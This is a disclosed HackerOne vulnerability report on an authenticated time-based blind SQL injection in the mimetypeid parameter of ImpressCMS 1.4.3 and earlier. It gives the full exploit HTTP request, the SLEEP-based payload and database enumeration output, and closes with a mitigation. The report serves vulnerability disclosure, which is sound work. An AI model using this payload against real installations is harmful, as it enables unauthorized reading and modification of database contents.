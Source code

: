 # SQL Injection in version 1.4.3 and below

## Report Details
- **Report ID**: 1506129
- **URL**: https://hackerone.com/reports/1506129
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-03-10T07:55:41.510Z
- **Disclosed**: 2023-08-12T16:44:07.273Z

## Reporter
- **Username**: cyberinsane
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: impresscms

## Vulnerability Information
## Summary:
SQL Injection in ImpressCMS v1.4.3 and earlier allows remote attackers to inject into the code in unintended way, this allows an attacker to read and modify the sensitive information from the database used by the application. If misconfigured, an attacker can even upload a malicious web shell to compromise the entire system.

## ImpressCMS branch :
[1.4]
## Browsers Verified In:

  Google Chrome, Firefox]

## Steps To Reproduce:
Step1- Login with Admin Credentials
Step2- Vulnerable Parameter to SQLi: mimetypeid (POST request):

POST /ImpressCMS/htdocs/modules/system/admin.php?fct=mimetype&op=mod&mimetypeid=1 HTTP/1.1
Host: 192.168.56.117
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------40629177308912268471540748701
Content-Length: 1011
Origin: http://192.168.56.117
Connection: close
Referer: http://192.168.56.117/ImpressCMS/htdocs/modules/system/admin.php?fct=mimetype&op=mod&mimetypeid=1
Cookie: tbl_SystemMimetype_sortsel=mimetypeid; tbl_limitsel=15; tbl_SystemMimetype_filtersel=default; ICMSSESSION=7c9f7a65572d2aa40f66a0d468bb20e3
Upgrade-Insecure-Requests: 1

-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="mimetypeid"

1 AND (SELECT 3583 FROM (SELECT(SLEEP(5)))XdxE)
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="extension"

bin
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="types"

application/octet-stream
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="name"

Binary File/Linux Executable
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="icms_page_before_form"

http://192.168.56.117/ImpressCMS/htdocs/modules/system/admin.php?fct=mimetype
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="op"

addmimetype
-----------------------------40629177308912268471540748701
Content-Disposition: form-data; name="modify_button"

Submit
-----------------------------40629177308912268471540748701--

Vulnerable Payload:
1 AND (SELECT 3583 FROM (SELECT(SLEEP(5)))XdxE)   //time-based blind (query SLEEP)

Output:
web application technology: Apache 2.4.52, PHP 7.4.27
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
available databases [6]:
[*] impresscms
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

## Suggestions to mitigate or resolve the issue:
Use Parameterized Queries

## Supporting Material/References:
https://github.com/sartlabs/0days/blob/main/ImpressCMS1.4.3/Exploit.txt

  * [attachment / reference]

## Impact

SQL Injection in ImpressCMS v1.4.3 and earlier allows remote attackers to inject into the code in unintended way, this allows an attacker to read and modify the sensitive information from the database used by the application. If misconfigured, an attacker can even upload a malicious web shell to compromise the entire system.

## Attachments
No attachments
